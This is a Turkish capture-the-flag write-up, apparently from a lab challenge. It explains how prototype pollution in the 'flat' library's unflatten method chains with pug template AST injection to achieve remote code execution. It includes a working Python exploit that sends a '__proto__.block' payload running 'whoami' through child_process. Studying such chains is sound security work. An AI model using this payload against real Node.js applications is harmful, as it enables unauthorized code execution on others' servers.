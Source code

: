 Uygulama, **unflatten** metodundaki bir zafiyete karşı savunmasız olan, belirli bir sürümdeki **flat** kütüphanesini kullanıyor ve bu durum **prototype pollution** (prototip kirliliği) saldırılarına açık hale getiriyor.

Uygulama, **prototype pollution** saldırılarına karşı savunmasız ve yanıtları oluşturmak için **pug** template motorunu kullanıyor. Bu nedenle, **pug template injection** üzerinden [[Bağlantılar/AST Injection\|AST Injection]] gerçekleştirerek **RCE** (Remote Code Execution - Uzaktan Kod Çalıştırma) elde edebiliriz.

![Pasted image 20250129202818.png](/img/user/resimler/Pasted%20image%2020250129202818.png)

JS uygulamasında Prototype pollution zafiyeti varsa, Parser veya Compiler işlemi sırasında fonksiyona herhangi bir AST eklenebilir. Burada, henüz lexer veya parser tarafından doğrulanmamış olan girdiyi düzgün bir şekilde filtrelemeden (düzgün bir şekilde filtrelenmemiş) AST ekleyebilirsiniz. Ardından, derleyiciye beklenmedik bir girdi verebiliriz.

![Pasted image 20250129202906.png](/img/user/resimler/Pasted%20image%2020250129202906.png)

Pug yukarıdaki grafikte gösterildiği gibi çalışır. Handlebar'lardan farklı olarak, her proses ayrı bir modüle ayrılmıştır. pug-parser tarafından üretilen AST, pug-code-gen'e aktarılır ve bir fonksiyon haline getirilir. Ve son olarak, çalıştırılacaktır.


### Exploit

Senaryomuzu exploit etmek için aşağıdaki exploit 'i oluşturabiliriz:

```
import requests
TARGET_URL = 'http://94.237.50.242:30751'
r = requests.post(TARGET_URL+'/api/submit', json = {
    "artist.name": "Gingell",
    "__proto__.block": {
        "type": "Text",
        "line": "console.log(process.mainModule.require('child_process').execSync('whoami > /app/static/pwned').toString())"
    }
})
print(requests.get(TARGET_URL+'/static/pwned').text)

```

![Pasted image 20250129204016.png](/img/user/resimler/Pasted%20image%2020250129204016.png)

![Pasted image 20250129203939.png](/img/user/resimler/Pasted%20image%2020250129203939.png)

![Pasted image 20250129203946.png](/img/user/resimler/Pasted%20image%2020250129203946.png)

